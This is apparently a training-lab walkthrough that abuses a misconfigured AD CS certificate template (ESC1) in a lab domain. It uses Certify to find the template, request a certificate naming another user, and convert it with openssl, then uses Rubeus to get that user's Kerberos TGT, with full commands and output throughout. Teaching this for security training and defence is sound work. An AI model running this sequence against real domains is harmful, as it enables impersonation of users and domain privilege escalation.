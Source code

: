 # Misconfigured certificate Templates



AD CS certificate templates are provided by Microsoft as a starting point for distributing certificates.  They are designed to be duplicated and configured for specific needs.  Misconfigurations within these templates can be abused for privilege escalation.

As `iyates` on **WKSTN-3**, use the [Certify](https://github.com/GhostPack/Certify) tool to find any vulnerable templates:

```
beacon> getuid
[*] You are CYBER\iyates

beacon> execute-assembly C:\Tools\Certify\Certify\bin\Release\Certify.exe find /vulnerable
```

![](.gitbook/assets/1663772469.png)

Let's go through the key parts of this output.

1. The name of the Certificate Authority is **dc-1.cyberbotic.io\ca-1**.
2. The template is called **VulnerableUserTemplate**.
3. **ENROLLEE\_SUPPLIES\_SUBJECT** allows the certificate requestor to provide a SAN (subject alternative name).
4. The certificate usage has **Client Authentication** set.
5. Domain Users have enrolment rights, so any domain user may request a certificate from this template

&#x20; If a principal you control had WriteOwner, WriteDacl or WriteProperty, then this could also be abused.

This configuration allows any domain user to request a certificate for any other domain user (including a domain admin), and use it to authenticate to the domain.  Request a certificate for **nglover**.

```
beacon> execute-assembly C:\Tools\Certify\Certify\bin\Release\Certify.exe request /ca:dc-1.cyberbotic.io\ca-1 /template:VulnerableUserTemplate /altname:nglover

[*] Action: Request a Certificates

[*] Current user context    : CYBER\iyates
[*] No subject name specified, using current context as subject.

[*] Template                : VulnerableUserTemplate
[*] Subject                 : CN=Isabel Yates, CN=Users, DC=cyberbotic, DC=io
[*] AltName                 : nglover

[*] Certificate Authority   : dc-1.cyberbotic.io\ca-1

[*] CA Response             : The certificate had been issued.
[*] Request ID              : 4

[*] cert.pem         :

-----BEGIN RSA PRIVATE KEY-----
MIIEowIBAAKCAQEA7+QJhT7SgrP2SLWI7JqilriLBFjGRgob7sK6Gt8/EN4ODCqA
[...snip...]
EZCgtNFHJpynmPVNEcocncFPtV1hskXIElcwer/EdIROOW+qZhan
-----END RSA PRIVATE KEY-----
-----BEGIN CERTIFICATE-----
MIIGKzCCBROgAwIBAgITIQAAAAJ1qRjA3m3TOAAAAAAAAjANBgkqhkiG9w0BAQsF
[...snip...]
Xm58FnNpAvwXQi1Vu+xIdtpRSGsnl6T6/TYwJlhKqMEU9mRfgaWXgLS+HdS++aw=
-----END CERTIFICATE-----

[*] Convert with: openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx

Certify completed in 00:00:16.3844085
```

Copy the whole certificate (including the private key) and save it to `cert.pem` on the Kali VM.  Then use the `openssl` command to convert it into pfx format.  You may enter a password (recommended) or leave it blank.

```
root@kali:~# openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
Enter Export Password:
Verifying - Enter Export Password:
```

Convert `cert.pfx` into a base64 encoded string:  `cat cert.pfx | base64 -w 0` and use `Rubeus asktgt` to request a TGT using this certificate.

```
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Debug\Rubeus.exe asktgt /user:nglover /certificate:MIIM5wIBAz[...snip...]dPAgIIAA== /password:password /aes256 /nowrap

[*] Action: Ask TGT

[*] Using PKINIT with etype aes256_cts_hmac_sha1 and subject: CN=Isabel Yates, CN=Users, DC=cyberbotic, DC=io 
[*] Building AS-REQ (w/ PKINIT preauth) for: 'cyberbotic.io\nglover'
[+] TGT request successful!
[*] base64(ticket.kirbi):

      doIGNjCCB[...snip...]pYy5pbw==

  ServiceName              :  krbtgt/cyberbotic.io
  ServiceRealm             :  CYBERBOTIC.IO
  UserName                 :  nglover
  UserRealm                :  CYBERBOTIC.IO
  StartTime                :  1/18/2022 4:38:26 PM
  EndTime                  :  1/19/2022 2:38:26 AM
  RenewTill                :  1/25/2022 4:38:26 PM
  Flags                    :  name_canonicalize, pre_authent, initial, renewable, forwardable
  KeyType                  :  aes256_cts_hmac_sha1
  Base64(key)              :  unJ966veiMXllOu4n88hvAcX/6j71To9JJU5Ec48Pds=
  ASREP (key)              :  6F8361B5177CCC416E67A297C9D61AC975DEAA9E0505DE86657F16EAE9AD8F72
```
